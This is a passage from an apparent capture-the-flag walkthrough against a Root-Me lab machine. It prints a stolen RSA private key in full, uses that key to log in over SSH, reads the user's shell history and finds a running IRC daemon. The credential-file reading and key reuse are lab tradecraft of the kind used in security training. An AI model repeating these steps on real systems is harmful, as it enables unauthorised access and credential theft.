 ```bash
tsfMoLQikodrHif7WuJpG0zuG5pQ5XWKtAi7qbCvzHDnaudmT4SfDld/gneLhord
jSXQPi62aCATeL0cSGVD7pKJ7E3vbgM5bQAi7F9RnqBl1QRqjN3R1uYVrFaAU85v
f4N8umHOw5ELpLyZJ5LvZfVNB1jNIRpxINhAP+/kVslsZ93qyssljokKFMy/uOIH
r+SV3b3Zfogvg67AJ/g08jtCjYdbr7egPP2TYPMRz5fbTWCrc5m4EBvf5h5pP/w6
Go12YacY2lbF5wzbFUjIdNyF7RZHFDbSB0bM9aCDmXTfywlFswYdb7HyIZrstQ9W
BzWhIYkCgYEA/tUe/rhUcEYEXkhddkXWARcX0t9YNb8apY7WyVibiSyzh33mscRG
MLZoJJri5QMvNdYkNGr5zSGEo270Q2CzduKCbhVjXIybIbmggAc/80gZ5E8FDgJ7
szUKJL37BxXbAAYFIZkzXvc76Ve+vZvLfKMTbQqXTgKkQpGyRHLVOz8CgYEA59ht
YicNlz2yM26mpGqQNLGtEC1RmyZbPn03yJRTBJG5/sOlMw0RI+cMEiqyo7MKHmMZ
+Z7VKVtk8xEQbUy6EAeeSri/Fh1xiKRtlwwQSU1q2ooPOmdHyUp+rhseoPaDAJgy
3KJYbkQMzHVt6KhsWVTEnrz0VtxiTzRu7p2Y5ZUCgYEAt5X2RG+rdU8b6oibvI9H
Q3XNlf+NXvsUSV2EY33QX5yyodQUFNFf98wRbv2epHoM0u45GwJOgHe7RLq0gq3x
3J4GdSQ3dv9c64j9lf6jFbNF4/MBozwqvcpiSmILrOkT4wpzO+dQ2QOoR80M/zB0
ApDBd/b/VhYVHFg2Y5WPBKUCgYBn47SIMgXGCtBqeZ/UtyetZRyuzg/uXQ6v/r5b
dBOLTZ2xyouhR66xjtv63AU2k4jqOvAtyf2szZZ70N6yi5ooirFkvEpsJ39zgnLV
J4O4xScnjIvsWNFzIp2HeQGNkUj8oDbSZTEJIBc4GzrH8Yizsud0VimLLrAi29UF
ubsEzQKBgQDpWaD5rTcaWueiH2DwI7kbdgyf6yfpunsRNsnq0GqZ2wSaUyKt9b1j
bj9Dp+VxrUt584v//7z9Skkde2akJbA/qiF8/oOvzaiNRAOfpLCiqoL0vJ5dIvcg
aXwuOk5Dt0/xQWPAKHL6HYyzQjnad/VAmn6tnxko1A/S8ELiG+MUtg==
-----END RSA PRIVATE KEY-----

> cat /home/mauk/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDmyb+scegJpO2dynsMJIgmVadSD17J+kndzMifXxTWW/llB/T3IZoPFp+5qV2lcI0yjfaZV
Bv1dDtzY3ux1J0COyBKNXRgb8hkZk1HIVLnxglBF1nnBG7p4oCVBWyz8urfPC4GxPw6b/X9wqlWAHe6Q+0oD3szmJLEvVVZZeDoZWgnp/rMiK
j8NkwULE5T1bKXuLyywSgHFCWaBmH2mdhiHCjtF/dFcEl4cOm5zWD6+iXa9E0AteogGUi1LTwyGhNpLRIr6kP3w5TfgzvjlTkyjhOAWNhz54P
vF7DJ25a5Lki4U93F9weS3RxDuF7QBge6TmigIjhxrcHTFxJkgtar mauk@Relativity
```

We even have access to the private ssh key, and we now that the current ssh user (mauk) is registered in the `authorized_keys`, so [we can use the private key to connect without password]( https://support.rackspace.com/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/):

```bash
ssh -i private.key mauk@ctf06.root-me.org
```

Nothing could be found in the user directory, but we have access to the history:

```bash
1  ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
2  su -
3  exit
4  su -
```

We can see an `ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N` line in the history, and `ircd` in the running processes, which both hint to a locally running irc server (6667 is the irc port).

```bash
ps aux | grep irc
-> jetta      577  0.0  0.2  24192  2612 ?        S    09:11   0:00 /opt/Unreal/src/ircd
```
